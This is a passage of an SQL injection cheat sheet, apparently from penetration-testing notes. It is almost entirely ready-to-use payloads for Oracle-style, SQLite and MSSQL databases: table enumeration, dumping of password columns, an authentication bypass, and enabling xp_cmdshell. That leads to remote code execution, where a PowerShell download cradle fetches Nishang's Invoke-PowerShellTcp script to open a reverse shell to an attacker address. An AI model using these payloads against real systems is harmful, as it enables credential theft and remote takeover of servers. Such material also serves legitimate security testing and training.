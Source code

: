 -> get table name
```
' union select null,table_name,null from all_tables--
```

-> get column name
```
' union select null,column_name,null from all_tab_columns where table_name='<table_name>'--
```

-> dump
```
' union select null,PASSWORD||USER_ID||USER_NAME,null from WEB_USERS--
```

## SQLite Injection
-> extracting table names, not displaying standard sqlite tables
```
http://site.com/index.php?id=-1 union select 1,2,3,group_concat(tbl_name),4 FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'--
```
-> extracting table users  
```
http://site.com/index.php?id=-1 union select 1,2,3,group_concat(password),5 FROM users--
```

-> Reference  
https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf

## MSSQL Injection
-> Bypass Authentication
```
' or 1=1--
```
-> get version+delay
```
' SELECT @@version; WAITFOR DELAY '00:00:10'; —
```

-> Enable xp_cmdshell
```
' UNION SELECT 1, null; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;--
```

-> RCE
```
' exec xp_cmdshell "powershell IEX (New-Object Net.WebClient).DownloadString('http://<ip>/InvokePowerShellTcp.ps1')" ;--
```
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1

## Abuse MSSQL
-> edit Invoke-PowerShellTcp.ps1, adding this:  
```
Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
```
```
impacket-mssqlclient <user>@<ip> -db <database>
```
```
xp_cmdshell powershell IEX(New-Object Net.webclient).downloadString(\"http://<ip>/Invoke-PowerShellTcp.ps1\")
```
https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
